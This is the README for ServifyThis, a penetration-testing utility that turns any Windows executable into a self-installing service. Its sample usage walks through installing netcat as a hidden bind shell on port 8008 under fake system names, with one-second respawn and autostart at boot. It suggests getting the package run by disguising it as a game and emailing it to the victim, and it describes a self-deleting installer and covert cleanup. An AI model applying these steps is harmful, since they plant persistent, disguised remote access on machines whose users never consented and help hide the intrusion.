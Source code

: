 # ServifyThis

Windows machines run services in the background, letting admins manage them via the Services Control panel (services.msc) or the sc command. Penetration testers sometimes want to create a Windows service that will allow them to gain and maintain remote access of a Windows machine, possibly a persistent listener offering up shell access on a given port. Unfortunately, while the Windows sc command can be used to run any .exe as a service, Windows waits 30 seconds for the given program to throw a given API call to indicate that the service has started successfully. If Windows doesn't hear back from the service, it kills the program, thinking that the service failed to start. Thus, with sc, you can make your service, but you'll only get 30 seconds of access.
Previously, various commercial and shareware programs were available that would wrap provided executables inside of code that makes the appropriate calls so that Windows would let the executable run as a service and avoid the 30-second kill rule. But, such programs were only available for a fee... until now.

InGuardians' ServifyThis program takes any Windows executable and converts it into a form suitable for use as a Windows service.

###**ServifyThis Usage Instructions:**

ServifyThis will take any Win32 executable (either command-line or GUI) and wrap it into a new executable/service/installer program that will:

1) Dump the "servified" executable on the target machine at a user-specified location and with a user-specified name.

2) Create, dump, and install a Win32 service executable that will automatically run the "servified" executable both immediately upon installation and whenever Windows boots. This service can be set to automatically respawn the "servified" executable if it exits. The name and location of the service executable, its file path, and the service name (shown in the Service control panel) are all user-specified. Optionally, the GUI of the "servified" executable can be displayed... although I don't know why you might want to...

3) The installation package self-deletes when its payload has been delivered.

4) Running the service executable with a "-u" (uninstall) option, will cause it to stop the service, stop the executable, remove the "servified" executable and finally, self-delete, leaving nothing behind on the previously exploited machine.

The parameters entered into the GUI of ServifyThis should be self-explanatory, but the following example usage should answer any lingering questions.

###**Sample Usage:**

Launch ServifyThis.exe

The parameters are broken into two groups, parameters that apply to the local machine and remote parameters that apply to the machine where the "servified" executable will be installed.

Locally, we want to choose our copy of the netcat executable:

Application to "servify": c:\program files\attack tools\nc.exe

Remotely, we want to set netcat up to work like this:

`Application Pathname: c:\windows\win32svc.exe
Command Parameters: -l -p 8008 -e c:\windows\system32\cmd.exe
Working Directory: c:\
Service Display Name: W32CriticalService
Service Pathname: c:\windows\system32\w32critsvc.exe`

Additionally, we need to make sure that the "Respawn" checkbox is checked, as it is by default. Finally, let's set our respawn interval to 1 sec.

Once we click on the "OK" button, ServifyThis spits out a new executable called "Servified.exe" in the current directory.

We then arrange for "Servified.exe" to be run on our target machine, say, by changing the name to something like "ReallyCoolGame.exe" and emailing it to the machine's user, for instance.

When Servified.exe is run on the target machine, it'll drop a copy of nc.exe into the c:\windows directory under the name win32svc.exe. It will create and drop a new service (c:\windows\system32\w32critsvc.exe) which it will install and launch. The sole purpose of this service is to launch the copy of nc.exe (now called c:\windows\win32svc.exe) with the parameters specified (which will cause it to listen on port 8008 and spawn a command shell back to anyone who connects to that port).

With that work done, Servified.exe will simply disappear, deleting itself.

We then use a local copy of netcat to connect up to our target:

`c:\Program Files\Attack Tools>nc  8008`
  
This will return us a command shell anchored in the c:\ directory, as that's what we specified for nc.exe's working directory.

We can do anything we want to do with that backdoor, confident in the knowledge that it will both continuously respawn while the machine is running, and will autostart if the machine is rebooted.

Finally, once we've done our dirty work on the target machine, we can simply change to the c:\windows\system32 directory and issue the command:

`c:\>w32critsvc -u`
  
which will stop the running service, stop the running instance of nc, and delete both the c:\windows\win32svc.exe file and the c:\windows\system32\w32critsvc.exe file.
